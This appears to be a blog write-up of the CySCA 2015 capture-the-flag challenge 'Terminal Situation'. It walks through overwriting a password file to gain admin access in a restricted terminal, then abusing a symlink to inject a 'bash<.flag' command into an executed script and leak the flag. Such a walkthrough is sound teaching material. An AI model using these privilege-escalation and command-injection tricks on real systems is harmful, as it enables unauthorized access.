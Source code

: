 ```yaml
---
title: CySCA 2015 - Web Application Pentest 6 - Terminal Situation
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


It's no coincidence this challenge is called Terminal Situation, we have a 
terminal sitting right in front of us. 

{% highlight text %}
<server> connected
{% endhighlight %}

Lets type `help` to see if it will give us a prompt.

{% highlight text %}
> help
AVAILABLE COMMANDS:
help                  display this information
id                    show user id
ps                    list active processes
ip                    list network interfaces
rm                    delete file
ln <src> <dst>        create symlink (admins only)
ls                    list directory entries
  -s                  view file size information
  -h                  view hidden files
uname                 show system information
auth <password>       authenticate as administrator
log <outfile>         append next command output to file
reset                 reset to initial terminal state
{% endhighlight %}

We notice a command `auth` which takes a password to authenticate as an 
administrator. We also notice that using `ln` is a privileged command, 
which indicated we need to become an administrator.

Performing an "ls -h", showing hidden files, reveals

{% highlight text %}
> ls -h
.
..
.flag
.passwd
bin
{% endhighlight %}

The password for the authentication is going to be stored in `.passwd`, however
we have no way of reading files. We do, however, have a method of writing and
deleting, namely `log` and `rm`. 

- `rm .passwd`: Delete the passwd file so we can re-write it
- `log .passwd`: Log the next commands output into .passwd
- `ls` : This outputs `bin` into `.passwd`
- `auth bin`: Using our new password, `bin`, we log in.

{% highlight text %}
> rm .passwd
> log .passwd
[log] next command output will be saved to .passwd
> ls
bin
> auth bin
[auth] admin login successful!
{% endhighlight %}

Okay so now we can fiddle around with the ln command. Lets take a look at 
what's in the `bin` directory. 

{% highlight text %}
> ls -s -h bin
total 40
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 .
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:10 ..
-rwxr-xr-x 1 root     ecwiterm   54 Nov 19 05:42 bash
-rwxr-xr-x 1 ecwiterm ecwiterm    3 Nov 19 05:42 id.sh
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 ip
-rwxr-xr-x 1 root     ecwiterm   53 Nov 19 05:42 ln
-rwxr-xr-x 1 root     ecwiterm   58 Nov 19 05:42 ls
-rwxr-xr-x 1 root     ecwiterm   49 Nov 19 05:42 ps
-rwxr-xr-x 1 root     ecwiterm   55 Nov 19 05:42 rm
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 uname
{% endhighlight %}

The only file we have write access to is id.sh. Lets see if we can write 
arbitrary commands into it:

{% highlight text %}
> log bin/id.sh
log: invalid log file, can't use bin directory
{% endhighlight %}


I'm not surprised. What if we create a symbolic link to the script and try log
to it? 

{% highlight text %}
> ln bin/id.sh id.sh
> ls -s -h
total 20
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:14 .
drwxr-xr-x 3 root     ecwiterm 4096 Nov 19 05:42 ..
-rwxr-xr-x 1 root     ecwiterm   39 Nov 19 05:42 .flag
-rw-rw-r-- 1 ecwiterm ecwiterm    3 Nov 19 08:10 .passwd
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 bin
lrwxrwxrwx 1 ecwiterm ecwiterm    9 Nov 19 08:14 id.sh -> bin/id.sh
{% endhighlight %}

Perfect. Now lets set up the command we want to run when we invoke `id`. We can 
write arbitrary commands using ls <filename> provided the file exists, so we create
the command we want:

{% highlight text %}
> log bash<.flag
> ls bash*
bash<.flag
{% endhighlight %}

Our command to write will be `bash<.flag`. We now need to write this into the
script. 

{% highlight text %}
> log id.sh
[log] next command output will be saved to id.sh
> ls bash*
bash<.flag
> id
[error] uid=1002(ecwiterm) gid=1002(ecwiterm) groups=1002(ecwiterm)
bash: line 1: $'FLAG{4b000000000000000000000000000000}\r': command not found
{% endhighlight %}

And thanks to bash's useful error messages, it prints out the flag for us.

